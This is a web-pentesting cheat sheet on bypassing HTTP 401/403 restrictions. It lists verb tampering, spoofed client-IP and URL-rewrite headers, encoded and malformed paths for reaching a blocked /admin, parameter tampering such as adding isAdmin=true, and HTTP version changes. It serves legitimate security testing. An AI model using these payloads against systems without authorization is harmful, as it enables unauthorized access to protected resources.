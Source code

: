 # Bypass 401 & 403

## [HTTP Verbs Tampering](https://book.bugbountyhub.xyz/pentesting-web/http-verb-tampering)

Try using **different verbs** to access the file: `GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK`

## HTTP Headers Fuzzing

Try using HTTP Proxy **Headers**, HTTP Authentication Basic and NTLM brute-force (with a few combinations only) and other techniques.

```http
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Host: localhost
```

If the **path is protected** you can try to bypass the path protection using these other headers:

```http
X-Original-URL: /admin
X-Rewrite-URL: /admin
```

## Path **Fuzzing**

If `/admin` is **blocked**:

* Try using `/%2e/admin` _(if access is blocked by a proxy, this could bypass the protection)._
* _Try also `/%252e/admin`_ (double URL encode)
* Try **Unicode bypass**: `/%ef%bc%8fadmin` (The URL encoded chars are like "/") so when encoded back it will be `//admin` and maybe you will have already bypassed the `/admin` name check

Other `/admin` bypasses:

* `site.com/admin` –> HTTP 403 Forbidden
* `site.com/ADMIN` –> HTTP 200 OK
* `site.com/admin/` –> HTTP 200 OK
* `site.com/admin/.` –> HTTP 200 OK
* `site.com//admin//` –> HTTP 200 OK
* `site.com/./admin/..` –> HTTP 200 OK
* `site.com/;/admin` –> HTTP 200 OK
* `site.com/.;/admin` –> HTTP 200 OK
* `site.com//;//admin` –> HTTP 200 OK
* `site.com/admin.json` –> HTTP 200 OK (ruby)

## **Parameter Manipulation** <a href="#parameter-manipulation" id="parameter-manipulation"></a>

* Change **param value**: From **`id=123` --> `id=124`**
* Add additional parameters to the URL: `?`**`id=124` —-> `id=124&isAdmin=true`**
* Remove the parameters
* Re-order parameters
* Use special characters
* Perform boundary testing in the parameters — provide values like _-234_ or _0_ or _99999999_

## **Protocol version** <a href="#protocol-version" id="protocol-version"></a>

If using `HTTP/1.1` **try to use 1.0** or even test if it **supports 2.0**.
